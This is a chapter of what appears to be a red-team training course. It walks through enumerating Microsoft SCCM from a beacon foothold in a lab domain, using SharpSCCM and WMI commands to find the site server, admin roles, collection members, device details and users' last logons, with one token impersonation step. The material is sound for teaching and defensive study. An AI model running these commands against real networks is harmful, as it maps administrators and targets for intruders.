 The first step when attacking SCCM is to get a feel for the deployment topology, which devices are being managed, and who the administrative users are.  Throughout this chapter, we'll use the [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) tool.  Given a foothold on a machine, we can begin by finding the management point and site code that it is linked to.  This does not require any special privileges in the domain, in SCCM or on the endpoint.

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner

-----------------------------------
CurrentManagementPoint: scm-1.cyberbotic.io
Name: SMS:S01
-----------------------------------
[+] Completed execution in 00:00:00.2733939
```
  

This enumeration uses WMI under the hood, which could be done manually.
```
beacon> powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl

Name                   : SMS:S01
CurrentManagementPoint : scm-1.cyberbotic.io
```
  

We can also check the DACL on the `CN=System Management` container in AD for machines that have Full Control over it (as this a pre-requisite of SCCM setup in a domain).
```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner

[!] Found 1 computer account(s) with GenericAll permission on the System Management container:

      CYBER\SCM-1$

[+] These systems are likely to be ConfigMgr site servers
[+] Completed execution in 00:00:00.4974129
```

Enumerating users, groups, computers, collections, and administrators, etc, does require some level of privilege in SCCM and cannot be done as a standard domain user.  SCCM employs an RBAC security model - the lowest role is "Read-Only Analyst" and the highest is "Full Administrator".  Lots of other roles exist such as "Asset Manager", "Infrastructure Administrator", and "Software Update Manager".  A description of each can be found [here](https://learn.microsoft.com/en-us/mem/configmgr/core/understand/fundamentals-of-role-based-administration).  Furthermore, the "scope" of these roles can be restricted to individual collections as needed by the administrative user.  For example, computers from the DEV and CYBER domains have been grouped into their own collections.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/187/ef5/e7f/device-collections.png)

This can really impact your view (as an attacker) of how SCCM is configured.  For example, if we enumerate all the collections as bfarmer, we can see that both DEV and CYBER exist as well as their member counts.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner

-----------------------------------
Name: DEV
MemberCount: 6
-----------------------------------
Name: CYBER
MemberCount: 4
-----------------------------------
[+] Completed execution in 00:00:00.6623964
```

However, if we run the same enumeration as jking, a member of DEV\\Support Engineers, we only see the DEV collection.
```
beacon> make_token DEV\jking Qwerty123
[+] Impersonated DEV\jking (netonly)

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner

-----------------------------------
Name: DEV
MemberCount: 6
-----------------------------------
[+] Completed execution in 00:00:02.7849452
``` 

This is because even though DEV\\Developers are only "Read-Only Analysts", the role is scoped to both collections.  DEV\\Support Engineers are "Full Administrators" over the DEV collection but they have no roles that are scoped to the CYBER collection.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/565/f16/65a/privileges.png)

So when enumerating SCCM, you may only see a small slither based on the user you're running the enumeration as.

Administrative users can be found using `get class-instances SMS_Admin`.
```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner

-----------------------------------
CategoryNames: All
CollectionNames: All Systems, All Users and User Groups
LogonName: SCM-1\Administrator
RoleNames: Full Administrator
-----------------------------------
CategoryNames: Default
CollectionNames: DEV, CYBER
LogonName: DEV\Developers
RoleNames: Read-only Analyst
-----------------------------------
CategoryNames: Default
CollectionNames: DEV
LogonName: DEV\Support Engineers
RoleNames: Full Administrator
-----------------------------------
CategoryNames: All
CollectionNames: All Systems, All Users and User Groups
LogonName: CYBER\Domain Admins
RoleNames: Full Administrator
-----------------------------------
[+] Completed execution in 00:00:06.0664364
```

This allows us to see what is reflected in the Configuration Manger GUI above.  Members of these collections can be found using `get collection-members -n <collection-name>`.
```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n DEV --no-banner

-----------------------------------
Domain: DEV
Name: WKSTN-2
-----------------------------------
Domain: DEV
Name: SQL-2
-----------------------------------
Domain: DEV
Name: WKSTN-1
-----------------------------------
Domain: DEV
Name: DC-2
-----------------------------------
Domain: DEV
Name: FS
-----------------------------------
Domain: DEV
Name: WEB
-----------------------------------
[+] Completed execution in 00:00:03.2562318
```
  

Even more information on each device can be obtained using `get devices`.  There are some good ways to filter the output, such as searching by device name, `-n`, and only displaying the properties specified by `-p`.
```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner

-----------------------------------
FullDomainName: DEV.CYBERBOTIC.IO
IPAddresses: 10.10.123.101
LastLogonUserName: nlamb
Name: WKSTN-1
OperatingSystemNameandVersion: Microsoft Windows NT Workstation 10.0
-----------------------------------
FullDomainName: DEV.CYBERBOTIC.IO
IPAddresses: 10.10.123.102
LastLogonUserName: bfarmer
Name: WKSTN-2
OperatingSystemNameandVersion: Microsoft Windows NT Workstation 10.0
-----------------------------------
[+] Completed execution in 00:00:01.3059878
```
  

You can also use SCCM as a form of user hunting, since it records the last user to login to each managed computer.  The `-u` parameter will only return devices where the given user was the last to login.
```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner

-----------------------------------
IPAddresses: 10.10.123.101
IPSubnets: 10.10.122.0
Name: WKSTN-1
-----------------------------------
[+] Completed execution in 00:00:01.7570393
```
  

However, take these results with a grain of salt because this information is only updated in SCCM every 7 days by default.